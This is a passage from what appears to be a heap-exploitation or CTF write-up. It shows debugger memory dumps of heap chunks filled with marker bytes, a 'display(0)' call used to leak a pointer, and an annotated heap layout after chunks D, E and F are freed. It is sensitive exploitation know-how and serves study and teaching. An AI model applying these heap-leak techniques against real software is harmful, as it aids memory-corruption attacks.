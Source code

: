 ```  
0x56257ccda620: 0x0000000000000000      0x0000000000000081  
0x56257ccda630: 0x4343434343434343      0x4343434343434343  
0x56257ccda640: 0x4343434343434343      0x4343434343434343  
0x56257ccda650: 0x4343434343434343      0x4343434343434343  
0x56257ccda660: 0x4343434343434343      0x4343434343434343  
0x56257ccda670: 0x4343434343434343      0x4343434343434343  
0x56257ccda680: 0x4343434343434343      0x4343434343434343  
0x56257ccda690: 0x4343434343434343      0x4343434343434343  
0x56257ccda6a0: 0x0000000000000000      0x0000000000000081  
0x56257ccda6b0: 0x4343434343434343      0x4343434343434343  
0x56257ccda6c0: 0x4343434343434343      0x4343434343434343  
0x56257ccda6d0: 0x4343434343434343      0x4343434343434343  
0x56257ccda6e0: 0x4343434343434343      0x4343434343434343  
0x56257ccda6f0: 0x4343434343434343      0x4343434343434343  
0x56257ccda700: 0x4343434343434343      0x4343434343434343  
0x56257ccda710: 0x4343434343434343      0x4343434343434343  
0x56257ccda720: 0x0000000000000000      0x0000000000000081  
0x56257ccda730: 0x4747474747474747      0x4747474747474747  
0x56257ccda740: 0x4747474747474747      0x4747474747474747  
0x56257ccda750: 0x4747474747474747      0x4747474747474747  
0x56257ccda760: 0x4747474747474747      0x4747474747474747  
0x56257ccda770: 0x4747474747474747      0x4747474747474747  
0x56257ccda780: 0x4747474747474747      0x4747474747474747  
0x56257ccda790: 0x4747474747474747      0x4747474747474747  
0x56257ccda7a0: 0x0000000000000000      0x0000000000000081  
0x56257ccda7b0: 0x5252525252525252      0x5252525252525252  
0x56257ccda7c0: 0x0000000000000330      0x0000000000000060  
0x56257ccda7d0: 0x0000000000000000      0x0000000000000000  
0x56257ccda7e0: 0x0000000000000000      0x0000000000000000  
0x56257ccda7f0: 0x0000000000000000      0x0000000000000000  
0x56257ccda800: 0x0000000000000000      0x0000000000000000  
0x56257ccda810: 0x0000000000000000      0x0000000000000000  
0x56257ccda820: 0x0000000000000000      0x00000000000207e1  
```

now all there is left to do is to read the contents of chunk B and we get the
leak

```  
display(0)  
```

## state of the heap after the leak

```  
0x56257ccda290: 0x0000000000000000      0x0000000000000021 <--- chunk D free  
0x56257ccda2a0: 0x0000000000000000      0x000056257ccda010  
0x56257ccda2b0: 0x0000000000000000      0x0000000000000051 <--- chunk E free  
0x56257ccda2c0: 0x0000000000000000      0x000056257ccda010  
0x56257ccda2d0: 0x0000000000000000      0x0000000000000000  
0x56257ccda2e0: 0x0000000000000000      0x0000000000000000  
0x56257ccda2f0: 0x0000000000000000      0x0000000000000000  
0x56257ccda300: 0x0000000000000000      0x00000000000000a1 <--- chunk F free  
0x56257ccda310: 0x0000000000000000      0x000056257ccda010  
0x56257ccda320: 0x0000000000000000      0x0000000000000000  
0x56257ccda330: 0x0000000000000000      0x0000000000000000  
0x56257ccda340: 0x0000000000000000      0x0000000000000000  
0x56257ccda350: 0x0000000000000000      0x0000000000000000  
0x56257ccda360: 0x0000000000000000      0x0000000000000000  
0x56257ccda370: 0x0000000000000000      0x0000000000000000  
0x56257ccda380: 0x0000000000000000      0x0000000000000000  
0x56257ccda390: 0x0000000000000000      0x0000000000000000  
0x56257ccda3a0: 0x0000000000000000      0x00000000000000f1 <--- chunk we used
to push down the pointers size 0xe0  
```
